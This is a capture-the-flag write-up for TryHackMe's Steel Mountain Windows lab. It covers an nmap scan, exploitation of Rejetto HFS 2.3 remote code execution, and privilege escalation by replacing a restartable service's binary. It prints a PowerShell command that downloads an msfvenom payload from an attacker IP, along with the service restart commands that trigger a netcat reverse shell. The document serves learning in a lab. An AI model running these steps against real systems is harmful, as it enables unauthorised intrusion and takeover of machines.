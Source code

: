 # Steel Mountain Writeup

## Overview

This is my writeup for the Steel Mountain room on TryHackMe.  This room challenges you to exploit a Windows machine with, and without, metasploit.  This is an easy room so if you are new to Windows exploitation and privilege escalation, then this room may be quite useful.

## How to Access

I completed this CTF challenge on TryHackMe.

Link to the room:
- https://tryhackme.com/room/steelmountain

## Steps

I began with an nmap scan:

```
$ nmap -sC -sV -oN initial 10.10.76.203
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-20 21:51 BST
Nmap scan report for 10.10.76.203
Host is up (0.049s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2021-05-19T20:50:34
|_Not valid after:  2021-11-18T20:50:34
|_ssl-date: 2021-05-20T20:52:58+00:00; 0s from scanner time.
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:22:3e:9b:b5:df (unknown)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-20T20:52:53
|_  start_date: 2021-05-20T20:50:27

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.95 seconds
```

As you can see, there are two web servers running - one on port 80 and another on port 8080.  The mainpage of the former is shown below:

![mainpage](screenshots/1_mainpage.png)

Inspecting the source code of the main page reveals the name of the employee of the month:

![bill harper](screenshots/2_bill_harper.png)

I then decided to check the other web server on port 8080.

![8080 web server](screenshots/3_other_web_server.png)

Inspecting the source code shows that it is running a Rejetto HTTP File Server (version 2.3).  After some research, I found that versions 2.3.x are vulnerable to remote code execution (RCE).

I then booted up metasploit and configured the exploit:

![msfconsole](screenshots/4_metasploit.png)

![configuration](screenshots/5_payload_config.png)

![payload](screenshots/6_exploit.png)

As shown in the above screenshot, I gained access to the machine as the *bill* user.  The `user.txt` flag is stored in his Desktop:

![user.txt](screenshots/7_user_flag.png)

The next step is to escalate privileges.  I used the `PowerUp.ps1` script which can be downloaded [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).  I then used the `upload` command to upload the script to the machine:

```
meterpreter > upload /opt/windows/powersploit/Privesc/PowerUp.ps1
[*] uploading  : /opt/windows/powersploit/Privesc/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 549.65 KiB of 549.65 KiB (100.0%): /opt/windows/powersploit/Privesc/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /opt/windows/powersploit/Privesc/PowerUp.ps1 -> PowerUp.ps1
```

I then loaded powershell using `load powershell` and executed the script using `powershell_shell`:

![8_CanRestart.png]

As shown above, the **AdvancedSystemCareService9**'s `CanRestart` parameter is set to *true*, meaning that you can restart this service on the system.  The directory `C:\Program Files (x86)\IObit\Advanced SystemCare` is also write-able, meaning that you can replace the application with a malicious one.

I created the exploit using `msfvenom`:

![ASCService.exe](screenshots/9_creating_exploit.png)

As this was uploading, I created a netcat listener on port 443.

I then uploaded it using the same command from earlier and restarted the service:

![restarting](screenshots/10_restarting_service.png)

Once this was complete, I was logged in as the admin user:

![privesc](screenshots/11_netcat.png)

From there, I found the `root.txt` flag in the `C:\Users\Administrator\Desktop` directory:

![root.txt](screenshots/12_root_flag.png)

The final part of this challenge is to do it all without metasploit.  This is easily done using the Python exploit found [here](https://www.exploit-db.com/exploits/39161).

After downloading this exploit, I put in my IP address.  The instructions state that you need to have a web server and a netcat listener active at the same time for this to work.  It also tells you to download a static binary for netcat found [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe).

In one terminal, I started the python web server, and in another I created a netcat listener.  In a third terminal, I executed the Python exploit until my netcat listener caught the callback.

Instead of using the `PowerUp.ps1` script to find the vulnerable service, the instructions tell you to upload and execute winPEAS to enumerate the machine (found [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases)).  

![winPEAS](screenshots/13_uploading_winPEAS.png)

Similar to the metasploit methodology, you create the payload using `msfvenom`, only this time you pull it into the system using powershell:

```
C:\Program Files (x86)\IObit>powershell -c wget "https://10.9.150.161:80/ASCService.exe"
```

Then, use `COPY` to place it into the correct directory:

```
C:\Program Files (x86)\IObit>COPY ASCService.exe "Advanced SystemCare"
```

Finally, restart the services as before (make sure you have netcat listening):

```
C:\Program Files (x86)\IObit> powershell -c sc stop AdvancedSystemCareService9
C:\Program Files (x86)\IObit> powershell -c sc start AdvancedSystemCareService9
```

And that's it! You've gained root twice!

## Summary and Feedback

Overall this was a pretty straightforward room.  For myself, Windows exploitation is not my strongest area so this machine was a learning experience for me.  I hope you enjoyed this writeup.